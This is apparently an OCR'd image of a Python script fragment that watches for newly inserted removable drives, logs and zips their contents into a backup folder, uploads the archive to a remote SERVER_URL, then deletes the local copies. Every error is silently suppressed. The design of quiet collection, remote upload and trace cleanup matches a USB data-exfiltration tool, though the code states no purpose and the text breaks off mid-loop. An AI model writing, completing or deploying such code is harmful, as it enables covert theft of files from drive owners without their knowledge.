 ```python
    
    sanitized_drive = sanitize_drive_name(drive)
    log_file = os.path.join(BACKUP_FOLDER, f"log_{sanitized_drive}.txt")
    try:
        if not os.path.exists(BACKUP_FOLDER):
            os.makedirs(BACKUP_FOLDER)

        with open(log_file, "a", encoding="utf-8") as log:
            log.write(f"\n{drive}: " + ", ".join(folder_list + file_list) + "\n")

        
    except Exception as e:
        pass

def create_zip(drive):
    #Creates a ZIP archive of the backup folder for the specific drive.
    sanitized_drive = sanitize_drive_name(drive)
    zip_file = os.path.join(BACKUP_FOLDER, f"backup_{sanitized_drive}.zip")
    try:
        with zipfile.ZipFile(zip_file, 'w', zipfile.ZIP_DEFLATED) as zipf:
            for root, _, files in os.walk(BACKUP_FOLDER):
                for file in files:
                    file_path = os.path.join(root, file)
                    arcname = os.path.relpath(file_path, BACKUP_FOLDER)  # Keep relative path
                    zipf.write(file_path, arcname)

        pass
    except Exception as e:
        pass
    return zip_file

def upload_zip(zip_file):
    #Uploads the ZIP file to the server
    try:
        with open(zip_file, 'rb') as f:
            response = requests.post(SERVER_URL, files={'zipfile': f})
            response.raise_for_status()  # Raise an error for bad status codes
            
    except Exception as e:
        pass

def clear_backup_folder():
    
    try:
        for item in os.listdir(BACKUP_FOLDER):
            item_path = os.path.join(BACKUP_FOLDER, item)
            if os.path.isdir(item_path):
                shutil.rmtree(item_path)
            else:
                os.remove(item_path)
   
    except Exception as e:
        pass


def run():
    detected_drives = set()

    while True:
        try:
            removable_drives = set(get_removable_drives())

            new_drives = removable_drives - detected_drives
```